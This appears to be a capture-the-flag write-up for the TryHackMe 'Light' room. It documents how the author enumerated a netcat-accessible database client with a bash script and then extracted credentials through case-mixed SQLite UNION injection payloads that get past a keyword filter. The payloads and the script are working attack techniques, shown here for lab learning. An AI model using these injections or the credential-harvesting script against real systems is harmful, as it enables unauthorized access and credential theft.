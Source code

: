 # Light - Writeup

**Date**: 09/02/2025

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/lightroom](https://tryhackme.com/room/lightroom)

—

I am working on a database application called Light! Would you like to try it out?

If so, the application is running on **port 1337**. You can connect to it using `nc 10.10.238.192 1337`. You can use the username `smokey` in order to get started.

---

Let’s start by connecting via **netcat** to the target machine using the port 1337 as it’s said in the machine’s description. 

<figure><img src="../../.gitbook/assets/light0.png" alt=""><figcaption></figcaption></figure>

It looks like a client that asks you for an username and, if it exists, it returns the password of that user (or it seems so). I used the username provided in the description and got its password. Tried also with `admin` and `root` usernames without any success.

```php
smokey:vYQ5ngPpw8AdUmL
```

Let’s do a port scan to see if there is any other service running on the target machine: 

<figure><img src="../../.gitbook/assets/light1.png" alt=""><figcaption></figcaption></figure>

The SSH port is open.

<figure><img src="../../.gitbook/assets/light2.png" alt=""><figcaption></figcaption></figure>

And it’s using OpenSSH, so let’s try to log in using the smokey credentials:

<figure><img src="../../.gitbook/assets/light3.png" alt=""><figcaption></figcaption></figure>

Too easy to be true. 
As this client asks for a username, and if it exists returns a message with the password I asked ChatGPT for a simple bash program that will read from a username list file, send each username to the client and wait for the response.

```php
#!/bin/bash

# Verify that the 3 parameters had been set
if [ "$#" -ne 3 ]; then
    echo "Usage: $0 <IP> <PORT> <USERLIST>"
    exit 1
fi

IP="$1"
PORT="$2"
USERLIST="$3"

# Verify the userlist exists
if [ ! -f "$USERLIST" ]; then
    echo "The file $USERLIST does not exist."
    exit 1
fi

# Connect with netcat and manage the communication
coproc nc_proc { nc -v "$IP" "$PORT"; }
exec 3<&${nc_proc[0]} 4>&${nc_proc[1]}

# Read and wait for the Welcome message
while IFS= read -r line <&3; do
    echo "$line"
    if [[ "$line" == *"Welcome to the Light database!"* ]]; then
        break
    fi
done

# Initialitate counter
lineNumber=0

# Read the file lines and process
while IFS= read -r user; do
    ((lineNumber++))
    
    # Wait for the "username" message
    while IFS= read -r -d ": " line <&3; do
        # echo "$line"
        if [[ "$line" =~ "username" ]]; then
            # Send username with the explicit line jump
            echo -e "$user\n" >&4
            break
        fi
    done
    
    # Wait response
    while IFS= read -r line <&3; do
        # echo "$line"
        if [[ "$line" =~ "Password" ]]; then
            pass=$(echo "$line" | awk '{print $NF}')
            echo "[!] $user : $pass"
            break
        else
            break
        fi
    done

done < "$USERLIST"

# Close connections
exec 3<&-
exec 4>&-
```

Using this tool along with a username list from SecLists, I managed to discover some usernames and their passwords.

<figure><img src="../../.gitbook/assets/light4.png" alt=""><figcaption></figcaption></figure>

```php
[!] michael : 7DV4dwA0g5FacRe
[!] john :    e74tqwRh2oApPo6
[!] steve :   WObjufHX1foR8d7
[!] battery : vYQ5ngPpw8AdUmL
[!] internet :YO1U9O1m52aJImA
[!] logan :   yAn4fPaF2qpCKpR
[!] Joseph :  tF8tj2o94WE4LKC
```

I tried to connect via SSH using that credentials, without success. At that time I was wondering if the passwords could be encoded, but after some tries I didn’t managed to decoded them.

Doing a recap I realized that I overlooked something… The first message is telling me that I’m accessing a database. Let’s check if it’s vulnerable to SQL Injection:

<figure><img src="../../.gitbook/assets/light5.png" alt=""><figcaption></figcaption></figure>

It seems to be vulnerable! By looking at the error thrown, I guess that the query that the server is done should be something like `SELECT password FROM database WHERE username = '$USER_INPUT' LIMIT 30;`

Apparently, the user input is being filtered, because it doesn’t allow me to send `--`,`/*` or `%0b`, so I’m unable to comment the final part of the query.

<figure><img src="../../.gitbook/assets/light6.png" alt=""><figcaption></figcaption></figure>

I sent `smokey' union select schema_name from information_schema.schemata` so, if my guess is not wrong, the complete query should be something like `SELECT password FROM database WHERE username = 'smokey' union select schema_name from information_schema.schemata' LIMIT 30;`

The client throws an error, telling me that it doesn’t like a word I sent. I tried sending `union` and it seems to be the problematic word. If I send an uppercase `UNION` it throws the same error, but if I use a combination of uppercase and lowercase letters, the client allows the input. Knowing that, I’ll use this combination to write every key word just in case.

I also noticed that my query was not correct, so I fixed it to be `smokey' Union Select schema_name From information_schema.schemata Union Select '` so the complete query should be: `SELECT password FROM database WHERE username = 'smokey' union select schema_name from information_schema.schemata Union Select '' LIMIT 30;`

<figure><img src="../../.gitbook/assets/light7.png" alt=""><figcaption></figcaption></figure>

And the client reported that the database has no the table **information_schema.schemata**. It might mean that the database is not using MySQL and maybe is using SQL Lite. According to this page of [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) we can extract the database table name by using the query `SELECT tbl_name FROM sqlite_master WHERE type='table'`, so let’s try it:

`Smokey' Union Select tbl_name From sqlite_master Where type='table`

<figure><img src="../../.gitbook/assets/light8.png" alt=""><figcaption></figcaption></figure>

The output of the client says that the name of the table is **admintable**. I messed it up by changing the username from smokey to Smokey, but it seems to work (and it doesn’t add more text to the output), so let’s continue like that.

Now, let’s try to extract the column names of **admintable** by using the input: `Smokey' Union Select sql From sqlite_master Where type!='meta' And sql Not Null And name='admintable`

<figure><img src="../../.gitbook/assets/light9.png" alt=""><figcaption></figcaption></figure>

The column names are **id**, **username** and **password**. Now we can try to extract the username and passwords of all users:

`Smokey' Union Select username From admintable Where id='1`

`Smokey' Union Select password From admintable Where id='1`

<figure><img src="../../.gitbook/assets/light10.png" alt=""><figcaption></figcaption></figure>

The user assigned to **id=1** seems to be the admin user…

<figure><img src="../../.gitbook/assets/light11.png" alt=""><figcaption></figcaption></figure>

I tried to log in via SSH using that credentials, but nope.

<figure><img src="../../.gitbook/assets/light12.png" alt=""><figcaption></figcaption></figure>

Also, the database client doesn’t seems to recognize the username.

<figure><img src="../../.gitbook/assets/light13.png" alt=""><figcaption></figcaption></figure>

By enumerating the next id from the database, I found the flag of this CTF.